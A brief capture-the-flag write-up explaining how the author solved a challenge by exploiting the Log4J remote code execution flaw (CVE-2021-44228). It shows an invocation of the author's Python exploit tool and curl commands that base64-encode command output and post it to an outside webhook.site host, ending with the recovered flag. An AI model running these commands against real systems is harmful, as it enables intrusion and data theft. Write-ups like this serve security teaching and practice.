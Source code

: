 # The Loggers Writeup

> Author: alexandre-lavoie

From the numerous amounts of mentions of Log - it should be assumed that we are dealing with the latest Log4J RCE [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228). Given the disclosure is very recent, there is a fair bit of security analysis but not many clean solutions. I wrote a payload with Python [here](https://github.com/alexandre-lavoie/python-log4rce). 

The payloads will follow this structure:

```
python3 log4rce.py --rhosts "YOUR_IP" --target "linux" --payload "PAYLOAD" http -X POST --url "URL" --data "address=###"
```

We can use try to CURL to see if we can extract data:

```
curl http://webhook.site/...
```

Which will give us a reply. We can use the following to run commands and get the output in base64:

```
curl -X POST -d "data=$(PAYLOAD | base64)" http://webhook.site/...
```

If we run `ls`, we find that there is a `flag.txt`. We can use `cat flag.txt` to get flag:

```
FLAG-{must_p4tch_cve-2021-44228}
```
